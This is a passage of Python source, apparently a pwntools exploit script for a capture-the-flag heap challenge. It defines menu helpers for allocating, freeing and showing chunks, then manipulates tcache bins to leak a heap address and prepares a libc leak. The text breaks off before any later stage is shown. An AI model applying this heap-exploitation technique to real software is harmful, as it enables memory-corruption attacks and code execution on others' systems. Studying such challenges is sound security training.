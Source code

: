 ```python


# Begin Function helpers
def wait():
    p.recvrepeat(0.3)

def alloc(size,desc, game='', contrast =0,gamma=0,xres=0,yres=0,controller=0):
    p.sendline('2')
    wait()
    p.sendline(game)
    wait()
    p.sendline(str(contrast))
    wait()
    p.sendline(str(gamma))
    wait()
    p.sendline(str(xres))
    wait()
    p.sendline(str(yres))
    wait()
    p.sendline(str(controller))
    wait()
    p.sendline(str(size))
    wait()
    if size is not 0:
        p.sendline(desc)
        wait()

def free(index):
    p.sendline('4')
    wait()
    p.sendline(str(index))
    wait()

def show(index):
    p.sendline('3')
    wait()
    p.sendline(str(index))

# End Function helpers 
small = 0x198
big = 0x4f0
p.recvrepeat(2)
wait()
# fill with 6 tcache bins
for i in range(3):
    alloc(0x30, chr(65+i) * 0x20)

for i in range(3):
    free(i) # 6 chunks in tcache

alloc(0, ' ')
show(0) # 5 chunks in tcache
p.recvuntil('[ Description         ]: ') 
heapleak = p.recvline()[:-1]
heapleak = u64(heapleak.ljust(8,'\x00'))
log.info('heap leak: '+hex(heapleak))

alloc(0x500, 'A'*0x30) # 4 chunk in tcache
alloc(0x200, 'A'*0x30) # 3 chunk in tcache, chunk index 2
free(2) # Prevent top consolidation, back to 4 chunks in tcache
free(1) # for libc leaking, 5 chunks in tcache
alloc(0,' ') # 4 chunk in tcache, chunk 1
show(1) # 1 is taken up
```